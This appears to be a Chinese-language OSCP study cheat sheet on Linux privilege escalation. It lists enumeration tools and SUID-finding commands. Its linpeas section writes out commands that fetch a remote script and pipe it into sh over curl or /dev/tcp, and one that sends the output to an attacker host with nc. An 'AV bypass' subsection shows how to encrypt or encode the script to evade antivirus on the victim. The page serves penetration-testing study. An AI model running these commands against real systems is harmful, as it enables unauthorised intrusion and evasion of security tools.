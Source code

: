 ```yaml
---
layer: article
title: Privilege Escalation
tags: oscp
---
```


## GTFOBins

项目地址：<https://github.com/GTFOBins/GTFOBins.github.io> 和<https://gtfobins.github.io/>

## [BeRoot](https://github.com/AlessandroZ/BeRoot)

## pspy

项目地址: <https://github.com/DominicBreuker/pspy>

包含：稳定版`pspy32` 和`pspy64`和小文件版`pspy32s` 和`pspy64s`

## linpeas.sh

项目地址：<https://github.com/carlospolop/PEASS-ng> 和<https://linpeas.sh/>

```sh
# From github
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```sh
# Local network
$ sudo python -m SimpleHTTPServer 80 #Host
$ curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
$ sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
$ cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
$ nc -lvnp 9002 | tee linpeas.out #Host
$ curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```sh
# Output to file
$ ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
$ less -r /dev/shm/linpeas.txt #Read with colors
```

```sh
# Use a linpeas binary
$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
$ chmod +x linpeas_linux_amd64
$ ./linpeas_linux_amd64
```

### AV bypass

```sh
#open-ssl encryption
$ openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
$ sudo python -m SimpleHTTPServer 80 #Start HTTP server
$ curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
$ base64 -w0 linpeas.sh > lp.enc
$ sudo python -m SimpleHTTPServer 80 #Start HTTP server
$ curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## linux-exploit-suggester.sh

## linux-exploit-suggester-2.pl

## linuxprivchecker.py

## LinEnum.sh

## SUID 提权

```sh
$ find / -perm -u=s -type f 2>/dev/null
# 或者
$ find / -user root -perm -4000 -print 2>/dev/null
$find / -user root -perm -4000 -exec ls -ldb {} \;
```

参考：<https://www.freebuf.com/articles/others-articles/307232.html>
